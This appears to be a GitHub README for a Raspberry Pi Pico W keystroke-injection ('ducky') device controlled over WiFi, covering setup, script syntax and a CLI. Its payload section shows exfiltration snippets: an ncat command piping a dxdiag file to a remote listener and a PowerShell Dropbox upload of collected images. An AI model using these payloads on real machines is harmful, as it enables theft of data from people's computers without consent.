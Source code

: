 
# Pico ducky with CLI over WiFi

Inspired by [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky). I decided pick up a [Raspberry Pi Pico W](https://www.raspberrypi.com/documentation/microcontrollers/raspberry-pi-pico.html) myself to experiment and play around with some of the ducky possiblities. I also added a CLI for the already existing web interface made by [dbisu](https://github.com/dbisu/pico-ducky).

### Use this tool and payloads to automate stuff and only for LEGAL purposes! Never target anyone if they DIDN'T give you permission as it is !!!ILLEGAL!!!


https://github.com/RLaipins/PICO-w-ducky-CLI/assets/59094867/9d7aed21-3bb4-4a99-95fe-eb1a02646be1


## Tools needed

Needed for this project:

- Raspberry Pi Pico W
- Micro USB to USB adapter
- Device to control pico through Wi-Fi (Laptop or phone with CLI)
(Optional) - stuff for payloads in this repository.
- Server to listen Ncat requests
- Dropbox access token

## Configuring Pico W

1.  [Download](https://github.com/RLaipins/PICO-w-ducky-CLI/releases/tag/Release_v1.0) everything and un-zip ```Pico.W.release.zip```
2. Plug in Raspberry Pico W to your computer and drag ```adafruit-circuitpython-raspberry_pi_pico_w-en_US-8.0.0.uf2``` into ```RPI-RP2``` and wait till it reboots
3. Copy over these files: ```code.py```  ```boot.py```  ```duckyinpython.py```  ```secrets.py```  ```webapp.py```  ```wsgiserver.py``` and  ```lib``` folder from ``` Pico W Release```  folder
4. Create new payloads or use existing ones
5. !!! ```secrets.py``` Contain wifi login and password for Pico W access point. You can change this or leave as is, but remember the login details.
6. (CAREFUL - if you have created and named script as ```payload1.dd```  it will run automatically after plugging in) Unplug and plug in again the Pico W 
7. You can now connect to ```TestAP``` WiFi access point and use CLI script [```CLI_4_web_ducky.py```](https://github.com/RLaipins/PICO-w-ducky-CLI/releases/download/Release_v1.0/CLI_4_web_ducky.py) for controlling the ducky remotely.
8. Don't do anything illegal and have fun automating stuff.
## Modifying ducky after setting it up

After setting everything up you might want to access the ducky again as mass storage device.

To do so, you need to:
- Connect the ```GP0``` and ```GND``` pin to not launch ```payload1.dd``` immediately after plugging it in (if you don't have ```payload1.dd``` on your ducky, then you can ignore this)
 
![Screenshot](https://github.com/RLaipins/PICO-w-ducky-CLI/assets/59094867/0dd89f32-3f50-4a92-9d01-3cd22131d31c)
- Connect the ```GP15``` and ```GND``` pin to have the ducky open up as mass storage device.
![Screenshot](https://github.com/RLaipins/PICO-w-ducky-CLI/assets/59094867/b62cd988-538b-4224-9a75-38c92c847a74)
## Main ducky script commands

```GUI r``` is the same as pressing ```win+r```. and can be used to launch ```cmd/powershell and other programs```

```STRING``` is used to type characters an example from my payload to force language to US in powershell
```
STRING Set-WinUserLanguageList -Force en-US

```
```REM``` is used to comment stuff out example from my payload. Everything in the same line after REM is simply ignored

```
REM You can change which ever path you want to the the pictures/files from.
REM Change line 32 to your OWN Dropbox access token
```

```DELAY``` is used to delay ducky from typing more commands and allow previous command to execute before the next one is ran. For example, if automating stuff on slower PC, ```DELAY``` will have to be increased or else the payload might mess up.
In example below ducky will wait 5 seconds after ```ENTER``` before executing next commands.
```
STRING Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
ENTER
DELAY 5000
```
```ENTER``` and ```DELETE``` are quite self explanatory. They can be used by themselves to either delete stuff or enter stuff.

Keys like ```CTRL```, ```ALT```, ```DELETE```,```ESC```,```TAB``` can be chained to gether to execute some of their combos.

More unique commands and keystrokes can be found in duckyinpython.py
## My payloads

I wanted to focus on exfiltration payloads and wanted to construct 2 scenarios with different exfiltration methods.

### 1. [Exfiltration using dropbox API](https://github.com/RLaipins/PICO-w-ducky-CLI/blob/master/image_grab_n_exfiltrate.dd)

I got inspired from one of [Hack5 payloads](https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/exfiltration/dropbox-exfiltrator) to use dropbox API to exfiltrate some data. So I combined a script of gathering some pictures and the dropbox API script to exfiltrate images to my dropbox.

* One bad thing about this method of exfiltration is that [dropbox no longer supports long-lasting access tokens](https://developers.dropbox.com/oauth-guide#:~:text=Helper%20methods%20accept%20the%20refresh,for%20compatibility%20until%20mid%202021.) and current access tokens expire quite quickly which means the payload also needs to be changed often.

### 2. [Exfiltration using Ncat](https://github.com/RLaipins/PICO-w-ducky-CLI/blob/master/dxdiag_ncat.dd)
For this exfiltration I wanted to demonstrate that if target system has a tool like Ncat, it can also be used to exfiltrate some information. So this payload is meant to exfiltrate dxdiag file from a Windows system to a remote PC by using ncat which is listening all the time. The script execute time is quite long because dxdiag takes some time. After that I used --ssl to encrypt the traffic.
```
ENTER
REM 12 second delay time to complete the dxdiag, since it takes a bit of time
DELAY 12000
REM takes dxdiag output and sends it over ncat to specific IP and port
STRING Get-Content "$env:TEMP\infins.txt" | ncat --ssl IP PORT
DELAY 100
ENTER
DELAY 5000

```

* This method can only work if target system has ncat installed.
## Web Interface

Web interface from [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky) was quite simple. 
It contained 6 access points:
- ```192.168.1.4:80/```
- ```192.168.1.4:80/ducky``` Main screen which displays available payloads
- ```192.168.1.4:80/new```  Used to create new payloads
- ```192.168.1.4:80/edit/<file_name>``` Used to edit existing payloads
- ```192.168.1.4:80/write/<file_name>``` Used as POST from edit to overwrite the previous payload
- ```192.168.1.4:80/run/<file_name>``` Execute the payload by its file_name

### Web Interface issues I noticed

* If file is edited or written by using web end points it will replace all ```+``` with ```space' '```. It is something that is needed to be kept in mind.
* Editing big payloads multiple times can sometimes crash the webserver and you will have to replug the ducky
* Editing non existant file will instanlty crash the Pico W webserver

## Command Line Interface
I made a CLI [```cmd_4_web_ducky.py```](https://github.com/RLaipins/PICO-w-ducky-CLI/blob/master/cmd_4_web_ducky.py) based on provided web endpoints. CLI can be used instead of the web interface since it might be easier to use on some systems rather than the web.

CLI has few options:

- Ability to list names of scripts that are loaded on ducky
```
python ./cmd_4_web_ducky.py -l
or
python ./cmd_4_web_ducky.py --list
```
- Ability to run the loaded in scripts
```
python ./cmd_4_web_ducky.py -r <script_name>
or
python ./cmd_4_web_ducky.py --run <script_name>
```
- Ability to create new scripts based on existing file in the system. 
```
python ./cmd_4_web_ducky.py -c <script_path>
or
python ./cmd_4_web_ducky.py --create <script_path>
```
- Ability to edit files on ducky. Existing file on ducky will get overwritten by the local file and there is a small chance that Pico W webserver might crash if payload is too big.
```
python ./cmd_4_web_ducky.py -e <script_name> <script_path>
or
python ./cmd_4_web_ducky.py --edit <script_name> <script_path>
```
- Ability to show the content of existing scripts on ducky
```
python ./cmd_4_web_ducky.py -s <script_name>
or
python ./cmd_4_web_ducky.py --show <script_name>
```
![cli](https://github.com/RLaipins/PICO-w-ducky-CLI/assets/59094867/f947e091-dbc4-4347-a6f2-7cc033307920)
## Revert ducky back to Pico W

To revert pico ducky back to regular Pico W:

* Unplug the ducky
* Hold ```BOOTSEL``` button on Pico W and plug it in while holding down the button. It will open mass storage to reset the Pico W
* Download [flash.nuke.uf2](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)
* Drag ```flash.nuke.uf2``` it into ```RPI-RP2```
* After reset Pico W should be flashed and clean
